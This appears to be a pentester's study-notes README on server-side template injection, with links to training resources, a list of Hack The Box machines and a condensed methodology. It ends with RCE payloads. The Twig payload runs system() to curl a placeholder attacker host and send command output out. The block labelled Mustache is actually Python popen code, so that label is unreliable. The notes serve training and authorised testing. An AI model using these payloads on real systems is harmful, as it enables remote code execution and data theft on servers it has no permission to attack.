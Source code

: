 ![image](https://github.com/user-attachments/assets/96c1a0f1-af0c-4757-80a9-61e23a072119)

# Template Injection

## Training Resources
---

**Courses**

*Free*
- [PortSwigger Academy - Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)

*Paid*
- [HTB - Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks)
- [THM - Server-Side Template Injection](https://tryhackme.com/r/hacktivities/search?page=1&kind=all&searchText=server+side+temp)
- [THM - SSTI](https://tryhackme.com/r/room/learnssti)

#

### Hack The Box Machines
*These machines are tagged as containing Template Injection by HTB, the difficulty refers to the box as a whole and not necessarily the Template Injection element.*

| Machine Name | Difficulty | Completed |
| -- | -- | -- | -- | -- |
| Smart | Easy | |
| RedPanda | Easy | |
| Perfection | Easy | |
| Nunchucks | Easy | |
| Late | Easy | |
| Doctor | Easy | |
| Crushed | Easy | |
| Art | Easy | |
| Bolt | Medium | |
| Gobox | Medium | |
| GoodGames | Medium | |
| Flustered | Medium | |
| Epsilon | Medium | |
| Sandworm | Medium | |
| Talkative | Hard | |
| Hancliffe | Hard | |
| OverGraph | Hard | |
| Spider | Hard | |
| Oz | Hard | |


### Other Resources
---
**PT Guides**
- [HackTricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Hacker Recipes - Server-Sie Template Injection](https://www.thehacker.recipes/web/inputs/ssti#%F0%9F%9B%A0%EF%B8%8F-ssti-server-side-template-injection)
#
**Methodologies**
- [OWASP Methodology - Server Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
#
**Wordlists**
- [PATT SSTI Wordlists](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
#

## Condensed Notes
This is a condensed version of the notes I used during OSWA and are by no means complete. Make your own notes and methodology, building off these basic steps. 

- Identify if the application is using templates anywhere on the target.
- If you believe it is, figure out the injection point and where you can view the injection response. Try injecting payloads into the injection point to determine the template engine in use. An example of how this can be done can be seen in the diagram below:
![image](https://github.com/user-attachments/assets/360aee24-7675-405a-bcc8-b96003437561)
- Where you cannot identify where to view the injection, consider blind injection, can you inject into emails for example. Use out of band attacks here like connecting back to an attacker controlled web server.
- Other ways to identify the templating engine is to look for patterns in:
  - Paths - Certain template engines use common paths, for example junja2 and Flask often have a /templates/ directory.
  - File Extensions - Are there files present with extensions that give away the engine, for example .twig, .mistache etc.
  - Headers - Are there clues to the engine in the headers returned from the server.
- Once injection and the engine have been identified, try to get RCE. This might require reading the engine documentation. Some RCE examples can be seen below for various templating engines:
```bash
# Twig
{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://<ip>/?exfil=' ~ exfil)}}

# Freemarker
${"freemarker.template.utility.Execute"?new()("id")}

# Mustache
${__import__('os').popen('whoami').read()}
```
